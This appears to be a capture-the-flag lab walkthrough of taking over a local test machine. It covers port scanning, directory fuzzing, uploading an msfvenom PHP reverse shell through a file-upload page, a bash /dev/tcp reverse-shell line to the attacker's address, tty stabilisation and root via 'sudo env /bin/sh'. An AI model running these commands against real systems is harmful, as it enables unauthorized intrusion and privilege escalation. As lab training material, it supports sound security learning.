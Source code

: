 
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

We test the connection with the victim machine

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

As the victim machine is within reach, we will send a request for a response with the ports that are open.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

Now we launch a port scan

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

We will upload our malicious file

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)

we go into listening mode
```bash
nc -nlvp 443
```

![image](https://github.com/user-attachments/assets/8a99c7f9-9376-45f2-9c6a-dba95150719b)

we open our malicious file

![image](https://github.com/user-attachments/assets/1b72181e-44c5-4d1a-bf28-54c93568d82c)

we have conexion!!!

![image](https://github.com/user-attachments/assets/03b641b6-97cd-4fc6-96db-941fd855c6ec)

To stabilize the connection we will send the traffic to another of our ports.
```bash
nc nlvp 444
```
![image](https://github.com/user-attachments/assets/8ef08de8-fa7f-4353-b569-5468cebabdaf)


```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/d671a70c-f134-40f5-b447-2fe1407e95d4)

We already have a new connection

![image](https://github.com/user-attachments/assets/ccc3cd25-5388-4e40-b689-58111ec9aa1c)

now we will make a treatment of the tty

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Finally we have a treated and stabilized tty

![image](https://github.com/user-attachments/assets/7618d11b-74e2-4a92-b1b8-c845616ac316)

Now we will escalate privileges

```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/89003549-6cc4-405f-9eb1-0aec574ae83c)
![image](https://github.com/user-attachments/assets/f8135744-7786-4d69-876f-bcc989e65687)

```bash
sudo env /bin/sh
```
![image](https://github.com/user-attachments/assets/6d04adb6-8c59-495c-a212-fcac90a68b28)





